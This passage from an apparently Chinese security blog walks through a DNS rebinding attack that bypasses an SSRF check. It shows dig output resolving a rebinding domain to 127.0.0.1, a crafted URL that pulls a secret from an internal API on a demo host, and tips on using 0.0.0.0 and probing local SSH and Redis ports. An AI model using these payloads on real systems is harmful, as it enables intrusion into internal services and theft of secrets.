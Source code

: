 ```bash


$dig p-04f887-2kua.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> p-04f887-2kua.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57001
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;p-04f887-2kua.revc.xyz.		IN	A

;; ANSWER SECTION:
p-04f887-2kua.revc.xyz.	0	IN	A	127.0.0.1

;; Query time: 49 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:29:29 CST 2019
;; MSG SIZE  rcvd: 78
```

可以看出来第一次和第二次的解析结果是不一样的，将 DNS 服务器更换为 `8.8.8.8` 可以得到相同的结果。

因为 dns rebinding 配置的两次访问是有顺序的，而且我们已经都访问过了，如果再次去解析这个域名，反连平台就只能返回默认的解析结果了，这时候可以通过再次点击保存按钮来重置访问顺序。

构造 `http://vuln.net:8000/?url=http://p-04f887-2kua.revc.xyz:8000/api/internal/secret` 的 url，我们又获取到了 secret。

![](https://storage.virusdefender.net/blog/images/796/15679099800999.jpg)


![](https://storage.virusdefender.net/blog/images/796/15679099947838.jpg)

在 DNS 解析历史记录中，我们看到了两个 Google 的 IP，也就是说明 Python 的后端去解析了两次，因为 TTL=0，dns 服务器每次都要回源重新解析，这样第一次和第二次访问结果不一致也就绕过了检查。

## 备注

 - 使用 `0.0.0.0` 代替 `127.0.0.1` 是另外一种绕过思路
 - 利用上面的思路访问本地的 22 和 6379 还可以发现 SSH 和 Redis 服务，也是一个重要的信息。
